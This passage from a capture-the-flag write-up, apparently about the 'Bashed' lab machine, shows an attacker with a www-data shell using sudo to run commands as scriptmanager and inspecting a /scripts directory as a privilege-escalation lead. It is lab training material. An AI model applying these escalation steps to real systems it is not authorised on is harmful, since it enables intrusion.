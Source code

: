 That means I can run any command as scriptmanager, which might be a path to privilege escalation. To run a command as scriptmanager from a www-data bash, I have to use the following "form": sudo -H -u scriptmanager bash -c "\[COMMAND\]", just like so:

```
www-data@bashed:/home/arrexel# sudo -H -u scriptmanager bash -c "whoami"

scriptmanager
```

I try some known privilege escalation techniches, but I only find interesting stuff when I cd into / and realize there is a different directory inside of it:

```
www-data@bashed:/home/arrexel# cd /

www-data@bashed:/# ls -la

total 92
drwxr-xr-x 23 root root 4096 Jun 2 2022 .
drwxr-xr-x 23 root root 4096 Jun 2 2022 ..
-rw------- 1 root root 174 Jun 14 2022 .bash_history
drwxr-xr-x 2 root root 4096 Jun 2 2022 bin
drwxr-xr-x 3 root root 4096 Jun 2 2022 boot
drwxr-xr-x 19 root root 4140 Jan 2 17:49 dev
drwxr-xr-x 89 root root 4096 Jun 2 2022 etc
drwxr-xr-x 4 root root 4096 Dec 4 2017 home
lrwxrwxrwx 1 root root 32 Dec 4 2017 initrd.img -> boot/initrd.img-4.4.0-62-generic
drwxr-xr-x 19 root root 4096 Dec 4 2017 lib
drwxr-xr-x 2 root root 4096 Jun 2 2022 lib64
drwx------ 2 root root 16384 Dec 4 2017 lost+found
drwxr-xr-x 4 root root 4096 Dec 4 2017 media
drwxr-xr-x 2 root root 4096 Jun 2 2022 mnt
drwxr-xr-x 2 root root 4096 Dec 4 2017 opt
dr-xr-xr-x 170 root root 0 Jan 2 17:49 proc
drwx------ 3 root root 4096 Jun 2 2022 root
drwxr-xr-x 18 root root 500 Jan 2 17:49 run
drwxr-xr-x 2 root root 4096 Dec 4 2017 sbin
drwxrwxr-- 2 scriptmanager scriptmanager 4096 Jun 2 2022 scripts
drwxr-xr-x 2 root root 4096 Feb 15 2017 srv
dr-xr-xr-x 13 root root 0 Jan 2 17:49 sys
drwxrwxrwt 10 root root 4096 Jan 2 19:34 tmp
drwxr-xr-x 10 root root 4096 Dec 4 2017 usr
drwxr-xr-x 12 root root 4096 Jun 2 2022 var
lrwxrwxrwx 1 root root 29 Dec 4 2017 vmlinuz -> boot/vmlinuz-4.4.0-62-generic
```

There is the "scripts" directory in / owned by scritpmanager. When I check its files as scriptmanager, I get the following:

```
www-data@bashed:/# sudo -H -u scriptmanager bash -c "ls -la scripts"

total 16
drwxrwxr-- 2 scriptmanager scriptmanager 4096 Jun 2 2022 .
drwxr-xr-x 23 root root 4096 Jun 2 2022 ..
-rw-r--r-- 1 scriptmanager scriptmanager 58 Dec 4 2017 test.py
-rw-r--r-- 1 root root 12 Jan 2 19:37 test.txt

www-data@bashed:/# timedatectl

Local time: Mon 2023-01-02 19:38:02 PST
Universal time: Tue 2023-01-03 03:38:02 UTC
RTC time: Tue 2023-01-03 03:38:03
Time zone: America/Los_Angeles (PST, -0800)
Network time on: yes
NTP synchronized: no
```